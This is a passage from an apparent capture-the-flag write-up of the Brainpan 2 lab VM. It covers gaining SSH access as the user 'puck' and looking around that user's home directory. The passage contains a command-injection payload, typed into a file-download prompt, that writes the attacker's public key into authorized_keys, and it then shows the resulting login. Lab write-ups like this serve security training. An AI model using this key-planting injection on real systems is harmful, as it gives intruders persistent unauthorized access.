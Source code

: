 ```
                          >> VIEW
    ENTER FILE TO DOWNLOAD: `echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7lycUor/c861GeARol7mufaGiXdWEi1NdR2F1iNJKr/2SwbkpBnmsKr+2ko8wk+x2KQzPHkNNNoTO3BUsc1BvInyLlTqmi9L3EjVBxmeprKVIUX/2jLC4wh1V4UVSODU+DCzu1OiNfFos1Tto28p/ZA6mTPm4WrcH5rFTpnzUagS+4EpuPlBjOOCIjL2cphpFV+TvbbFrWyGtB9LIDXajx9Dw5wsyI7SyCIwpgG9zBzg2WuYf5OQcKcSB+OgEzXy2tWTT4og98EI4A26FZ9EdvvwJATQ3gvkmGKh913PvU3528gDt7R5DnkaCHt6hVCaa9JOR5b/W9DCCDGjcw31j mandreko@420-sc02j364hdkq5-man" > /home/puck/.ssh/authorized_keys;chmod 600 /home/puck/.ssh/authorized_keys`
```

It again hung, but when I attempted to login in a fifth terminal screen, it worked like a charm.

```
➜  ~  ssh puck@localhost -p 9876
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
puck@brainpan2:~$
```

## Always secure your backups

I figured, based on the trolling, I'd find yet another program to exploit. However, I saw no files in the home directory for 'puck'. When I looked at hidden files, I found all of the normal files you'd expect, plus a '.backup' folder.

```
puck@brainpan2:~$ ls -al
total 28
drwx------ 4 puck  puck  4096 Nov  5 09:45 .
drwxr-xr-x 5 root  root  4096 Nov  4 10:57 ..
drwxr-xr-x 3 puck  puck  4096 Nov  5 09:44 .backup
-rw------- 1 puck  puck     0 Nov  5 09:28 .bash_history
-rw-r--r-- 1 puck  puck   220 Nov  4 10:54 .bash_logout
-rw-r--r-- 1 puck  puck  3392 Nov  4 10:54 .bashrc
-rw-r--r-- 1 puck  puck   675 Nov  4 10:54 .profile
drwx------ 2 puck  puck  4096 Nov 20 17:35 .ssh
```

I started reading through all the files, especially the '.bash_history'. It looks like normal commands. He even would ssh locally when he'd do things as 'root', since 'sudo' wasn't installed. I figured that I would try doing the same, to see if his key was in the 'authorized_keys' file for the 'root' user. No dice, it didn't work and was asking me for a password.

```
puck@brainpan2:~$ ssh root@127.0.1.1 -p2222
The authenticity of host '[127.0.1.1]:2222 ([127.0.1.1]:2222)' can't be established.
ECDSA key fingerprint is 0a:15:1c:1c:25:b0:fe:54:8a:35:45:e5:b8:02:97:1a.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.1.1]:2222' (ECDSA) to the list of known hosts.
root@127.0.1.1's password:
```
